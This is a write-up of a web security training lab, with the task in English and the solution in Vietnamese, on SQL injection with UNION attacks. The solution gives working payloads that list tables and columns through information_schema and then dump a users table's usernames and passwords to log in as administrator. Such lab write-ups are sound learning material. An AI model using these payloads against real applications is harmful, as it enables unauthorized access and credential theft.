




# Lab: SQL injection attack, listing the database contents on non-Oracle databases

**PRACTITIONER**

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Write-up

Nhiệm vụ của lab này là về đăng nhập với user admin và sử dụng UNION attack để lấy thông tin từ các bảng khác. Có một cách để lấy toàn bộ tên các bảng qua information_schema.tables ,nên em sử dụng '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
và có được thông tin của các bảng có trong db

sau khi có được, tập trung vào các bảng về phần user

Ở đây cần phải lấy thêm về cả collum name trong bảng qua:' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_ihptqc'--

và từ đó có thể tạo thành một payload hoàn chỉnh:
' UNION SELECT username_anwizn,password_isrant FROM users_ihptqc--
từ đó có được account admin

